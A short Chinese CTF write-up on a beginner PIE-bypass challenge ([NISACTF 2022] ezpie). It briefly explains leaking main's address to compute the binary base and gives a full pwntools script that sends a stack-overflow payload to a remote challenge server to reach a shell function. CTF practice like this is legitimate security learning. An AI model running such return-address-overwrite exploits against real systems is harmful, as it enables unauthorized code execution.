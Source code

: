 ```yaml
---
title: PWN入门-ret2pie做题
date: 2024-01-26 22:34:15
tags: PWN
mathjax: true
---
```


# PWN入门-ret2pie做题

## [NISACTF 2022]ezpie

PIE保护时基地址随机，先泄漏main地址，直接给了。计算偏移算shell函数地址。

```python
from pwn import *
context(log_level='debug',os='linux',arch='i386')
p=remote("node5.anna.nssctf.cn",28166)
p.recvuntil("0x") #地址前缀0x
main_addr=int(p.recv(8),16) #8位地址以16进制形式读
p.recvuntil("Input:")
elf_base=main_addr-0x770 #计算偏移
stack_overflow=b'a'*(0x28+4)
shell_addr=p32(elf_base+0x80f) #求真实shell地址
payload1=flat([stack_overflow,shell_addr])
p.sendline(payload1)
p.interactive()
```
